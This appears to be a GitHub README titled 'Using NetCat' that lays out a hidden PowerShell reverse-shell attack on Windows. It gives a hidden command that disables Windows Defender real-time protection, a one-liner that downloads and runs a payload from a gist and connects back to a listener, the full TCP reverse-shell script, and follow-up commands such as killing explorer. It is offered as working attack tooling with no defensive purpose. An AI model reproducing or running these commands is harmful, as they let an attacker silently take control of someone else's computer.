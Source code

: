 # Using NetCat

## Hidden PowerShell for Windows
### Server side
```bash
nc -lp 80
```
### Client side

- To disable windows defender, `win+r` then paste

```ps1
powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
```

- Load the script and listen on the ip and port numbers specified, `win+r` then paste

```ps1
powershell -w hidden "IEX(IWR https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.29.21 80"
```

## Script
- Change the ip address in the "quotes" and the port (80)
- No need to paste this script in the client machine. Make this a gist, changing the ip and port number and paste the raw url of the gist in the snipped above 

```ps1
$client = New-Object System.Net.Sockets.TCPClient("192.168.29.21",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd) + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1

--------------------
--------------------
--------------------

## Non-Hidden
```ps1
IEX(IWR https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.29.21 80
```

## From this video
https://www.youtube.com/watch?v=A2JNBpUotZM

## Original Script
https://github.com/davidbombal/hak5

--------------------
--------------------
--------------------

## Commands
- Get running apps

```
get-process
```

- Stop process / Close an app

```
stop-process -processname explorer
```

- Open file hacked.txt. Automatically open in default app

```
start hacked.txt
```

- Open URl. Opens in default browser

```
start https://google.com/
```
